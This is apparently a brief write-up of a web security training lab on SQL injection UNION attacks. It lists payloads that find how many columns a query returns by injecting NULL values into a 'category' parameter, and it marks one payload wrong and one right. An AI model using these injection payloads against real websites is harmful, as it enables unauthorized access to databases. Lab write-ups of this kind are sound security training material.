 # Lab 01

## Lab: SQL injection UNION attack, determining the number of columns returned by the query

**Objective:** Try to find a right column

**Payload:** '+UNION+SELECT+NULL--

**Step-by-step:**
1. Intercept filter & Modify the "category" parameter
2. Find how many column (NULL,NULL,NULL)

INCORRECT
Payload: '+UNION+SELECT+NULL--

![04a7c380633f45409092914e180392ed](https://user-images.githubusercontent.com/44063862/106163947-73402500-61c4-11eb-95ee-c305298a6827.png)

CORRECT
Payload: '+UNION+SELECT+NULL,NULL,NULL--

![051015034b5a48479da3a365c5042aa5](https://user-images.githubusercontent.com/44063862/106163478-2b210280-61c4-11eb-89b3-fd47f8532ed2.png)
